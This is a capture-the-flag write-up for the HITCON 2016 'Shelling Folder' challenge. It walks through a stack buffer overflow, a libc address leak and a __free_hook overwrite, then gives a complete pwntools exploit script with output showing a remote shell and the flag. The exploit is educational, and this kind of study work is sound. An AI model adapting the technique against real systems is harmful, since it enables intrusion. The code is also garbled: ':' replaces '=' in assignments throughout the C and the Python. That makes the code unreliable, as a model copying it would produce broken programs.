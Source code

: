 ```yaml
---
type: ctf
title : HITCON CTF 2016 Quals - Shelling Folder
tags: [HITCON CTF, Shelling Folder]
date : 2016-10-10
author: Eno Leriand
featuredImage: https://image.slidesharecdn.com/hitconctf2016-final-161204160901/85/hitcon-ctf-2016-21-320.jpg?cb=1668291139
---
```


**Category:** pwn
**Points:** 200

64 bit ELF, with all the protection enabled.  

The program is a simple file system. You can create or delete files and folders, list files in a folder, change the current folder and calculate the size of a folder.  

It's a unix-like file system, where folders are also a special type of file. Both folders and files are stored in the program with the following data structure:
```c
struct file{
    struct file *sub_file[10]; // will all be null if it's a normal file
    struct file *parent_folder;
    char name[32];
    long file_size;
    int is_dir;
}
```
If a folder is created, the `is_dir` flag will be set to `1`, and the `file_size` will be set to `0`. A folder is allowed to contain at most 10 `sub_file`. If a normal file is created ( not folder ), the `is_dir` flag will be set to `0`, and the value of `file_size` is set by user. 

There's a **buffer overflow vulnerability** in the function of calculating the folder size:
```c
void cal_folder_size(struct file *cur_folder)
{
    char s; // [sp+10h] [bp-30h]@3
    __int64 *v3; // [sp+28h] [bp-18h]@5
    int idx; // [sp+30h] [bp-10h]@3

    if ( !cur_folder )
        exit(1);
    idx : 0;
    memset(&s, 0, 0x20uLL);

    while ( idx <= 9 )
    {
        if ( cur_folder->sub_file[idx] )
        {
            v3 : &cur_folder->file_size;
            copy_file_name(&s, cur_folder->sub_file[idx]->name); // <-- here we have a buffer overflow vulnerability
            if ( cur_folder->sub_file[idx]->is_dir == 1 )
            {
                *v3 : *v3;
            }
            else
            {
                printf("%s : size %ld\n", &s, cur_folder->sub_file[idx]->file_size);
                *v3 += cur_folder->sub_file[idx]->file_size;
            }
        }
        ++idx;
    }
    printf("The size of the folder is %ld\n", cur_folder->file_size);

}
```
When we set a file's name, we can input at most 31 characters. Inside the `cal_folder_size` function, the program will try to copy the file's name into a buffer `s`, which its size is only 24 bytes long. The vulnerability will cause the program to overwrite the `v3` variable.

The `v3` variable is an `int*` type pointer, which points to the current folder's `file_size`. Since we can overwrite this pointer, we can try to control this pointer and the size of the `sub_file[idx]`, so when the program execute the code at line:
```c
*v3 += cur_folder->sub_file[idx]->file_size
```
**it will actually let us control the value of any address.**

But remember the program has all the protection enabled, including **PIE**, so first we'll have to leak some address. Here's how I leak the address of the libc:

1. Create & delete some folders, so the pointer that points to the head of smallbin will appear on the heap memory.
2. Exploit the buffer overflow vulnerability, partial overwrite the `v3` pointer and make it point to a `struct file` pointer `p` ( `*v3 : p`).  
3. Control a `sub_file`'s `file_size`, so when it comes to the line `*v3 += cur_folder->sub_file[idx]->file_size`, it will adjust the value of `p`, making `p->name` point to the libc's address ( address of the smallbin's head )
4. List the files in the current folder and leak the libc's address.

After we got the libc's address, we can use the same vulnerability to overwrite the `__free_hook` function pointer into the address of **one gadget**, and get the shell by deleting a file. Notice that `file_size` stores the value returned by `atoi`, a four-byte integer, so we'll have to overwrite `__free_hook` twice : first  overwrite `__free_hook`,  then overwrite `__free_hook+4`.

```python exp_shell.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST : "52.69.237.212"
#HOST : "127.0.0.1"
PORT : 4869
ELF_PATH : "./shellingfolder_noalarm"
#LIBC_PATH : "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH : "./libc.so.6"

# setting 
context.arch : 'amd64'
context.os : 'linux'
context.endian : 'little'
context.word_size : 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level : 'INFO'

elf : ELF(ELF_PATH)
libc : ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res : ""
    while delim not in res:
        c : s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result : list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def create_file(name, size):
    r.sendlineafter(":", "4")
    r.sendafter(":", name)
    r.sendlineafter(":", str(size))

def change_dir(name):
    r.sendlineafter(":", "2")
    r.sendafter(":", name)

def remove(name):
    r.sendlineafter(":", "5")
    r.sendafter(":", name)

def make_dir(name):
    r.sendlineafter(":", "3")
    r.sendafter(":", name)

def ls():
    r.sendlineafter(":", "1")

def cal():
    r.sendlineafter(":", "6")

if __name__ == "__main__":

    r : remote(HOST, PORT)
    #r : process(ELF_PATH)

    # overwrite &file->fize_size (address of file_size)
    # use cal() to let file->name point to main_arena+88
    make_dir("AAAA")
    make_dir("BBBB")
    make_dir("CCCC")
    create_file("F"*24+p8(0x10), 64)
    remove("BBBB\n")
    remove("CCCC\n")
    cal()
    ls()

    # leak libc address
    ######################## one gadget
    # .text:000000000004525A                 mov     rax, cs:environ_ptr_0
    # .text:0000000000045261                 lea     rdi, aBinSh     ; "/bin/sh"
    # .text:0000000000045268                 lea     rsi, [rsp+188h+var_158]
    # .text:000000000004526D                 mov     cs:dword_3C54A0, 0
    # .text:0000000000045277                 mov     cs:dword_3C54A4, 0
    # .text:0000000000045281                 mov     rdx, [rax]
    # .text:0000000000045284                 call    execve
    ##########################
    r.recvuntil("----------------------\n")
    libc.address += u64(r.recv(6).ljust(8, "\x00")) - 0x3c3b78
    one_gadget : libc.address + 0x4525a
    malloc_hook : libc.symbols['__malloc_hook']
    free_hook : libc.symbols['__free_hook']
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))
    log.success("malloc_hook: "+hex(malloc_hook))
    log.success("free_hook: "+hex(free_hook))

    # overwrite free_hook to one_gadet
    make_dir("DDDD")
    change_dir("DDDD\n")
    create_file("i"*24+p64(free_hook)[:7:], (one_gadget & 0xffffffff))
    create_file("I"*24+p64(free_hook+4)[:7:], ((one_gadget & 0xffffffff00000000)>>32))
    cal()
    # get shell
    remove("i"*24+p64(free_hook)[:7:])
    
    r.interactive()
```

```
[x] Opening connection to 52.69.237.212 on port 4869
[x] Opening connection to 52.69.237.212 on port 4869: Trying 52.69.237.212
[+] Opening connection to 52.69.237.212 on port 4869: Done
[+] libc_base: 0x7ff15c7cc000
[+] one_gadget: 0x7ff15c81125a
[+] malloc_hook: 0x7ff15cb8fb10
[+] free_hook: 0x7ff15cb917a8
[*] Switching to interactive mode
 size 32753
The size of the folder is 0
**************************************
            ShellingFolder            
**************************************
 1.List the current folder            
 2.Change the current folder          
 3.Make a folder                      
 4.Create a file in current folder    
 5.Remove a folder or a file          
 6.Caculate the size of folder        
 7.Exit                               
**************************************
Your choice:Choose a Folder or file :

// id
uid=1000(shellingfolder) gid=1000(shellingfolder) groups=1000(shellingfolder)

// cat /home/shellingfolder/flag
hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}
``` 

flag: `hitcon{Sh3llingF0ld3r_Sh3rr1nf0rd_Pl4y_w17h_4_S1mpl3_D4t4_Ori3nt3d_Pr0gr4mm1n7}`

